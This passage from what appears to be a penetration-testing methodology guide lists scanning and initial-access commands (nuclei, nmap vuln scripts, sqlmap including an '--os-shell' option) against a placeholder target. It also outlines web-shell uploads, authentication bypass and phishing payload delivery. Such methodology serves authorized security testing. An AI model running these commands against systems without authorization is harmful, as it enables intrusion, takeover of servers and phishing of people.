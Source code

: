 ## Phase 3: Vulnerability Identification

### 3.1 Automated Vulnerability Scanning
```bash
# Web application vulnerabilities
nuclei -u target.com -severity critical,high,medium -o web-vulns.txt

# Network service vulnerabilities
nmap --script vuln target.com -oA vuln-scan

# CVE-based scanning
nuclei -u target.com -tags cve -o cve-results.txt
```

### 3.2 Manual Vulnerability Assessment
```bash
# SQL injection testing
sqlmap -u "https://target.com/search?q=test" --batch --level=3

# Cross-site scripting (XSS) testing
# Manual testing with various payloads in forms and parameters

# Server-side request forgery (SSRF) testing
# Test for SSRF in file upload, URL parameters, etc.
```

## Phase 4: Initial Access Vectors

### 4.1 Web Application Exploitation
```bash
# Exploit identified web vulnerabilities
# Example: SQL injection with SQLMap
sqlmap -u "https://target.com/vulnerable.php?id=1" --os-shell

# File upload vulnerabilities
# Upload web shells through vulnerable upload functionality

# Authentication bypass
# Test for default credentials, weak passwords, bypass techniques
```

### 4.2 Email-Based Attacks (Phishing)
```bash
# Phishing infrastructure setup
# (Use dedicated phishing frameworks like Gophish - not included in CyberKit)

# Email template creation
# Create convincing emails based on reconnaissance

# Payload delivery
# Craft malicious attachments or links for initial access
```
